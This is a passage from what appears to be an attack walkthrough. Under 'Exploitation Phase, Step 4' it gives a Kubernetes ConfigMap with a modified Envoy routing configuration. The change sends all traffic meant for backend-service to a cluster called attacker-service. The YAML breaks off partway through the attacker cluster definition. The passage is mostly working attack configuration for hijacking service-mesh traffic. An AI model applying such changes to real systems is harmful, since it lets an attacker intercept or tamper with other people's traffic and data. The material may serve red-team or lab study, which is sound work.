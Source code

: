 **Exploitation Phase:**

**Step 4: Modify the Configuration to Redirect Traffic**

Let's assume we want to redirect traffic destined for the service `backend-service` to a malicious service `attacker-service`. We'll modify the relevant routing rule within the `envoy-config.yaml` file. This requires knowledge of the Envoy configuration format. The example assumes that `backend-service` is specified in a VirtualHost route.

```yaml
# envoy-config.yaml (example modification)
apiVersion: v1
kind: ConfigMap
metadata:
  name: envoy-config
data:
  envoy.yaml: |
    static_resources:
      listeners:
      - address:
          socket_address:
            address: 0.0.0.0
            port_value: 80
        filter_chains:
        - filters:
          - name: envoy.filters.network.http_connection_manager
            typed_config:
              "@type": type.googleapis.com/envoy.extensions.filters.network.http_connection_manager.v3.HttpConnectionManager
              stat_prefix: ingress_http
              route_config:
                name: local_route
                virtual_hosts:
                - name: backend_vhost
                  domains:
                  - "*"
                  routes:
                  - match:
                      prefix: "/"
                    route:
                      cluster: attacker-service # Modified: Redirect to attacker-service
              http_filters:
              - name: envoy.filters.http.router
                typed_config: {}
      clusters:
      - name: backend-service  # This is the original service, now unused.
        connect_timeout: 0.25s
        type: STRICT_DNS
        lb_policy: ROUND_ROBIN
        load_assignment:
          cluster_name: backend-service
          endpoints:
          - lb_endpoints:
            - endpoint:
                address:
                  socket_address:
                    address: backend-service # Replace with backend-service's FQDN or IP
                    port_value: 8080
      - name: attacker-service # Add the attacker service
        connect_timeout: 0.25s
        type: STRICT_DNS
        lb_policy: ROUND_ROBIN
        load_assignment:
          cluster_name: attacker-service
          endpoints:
```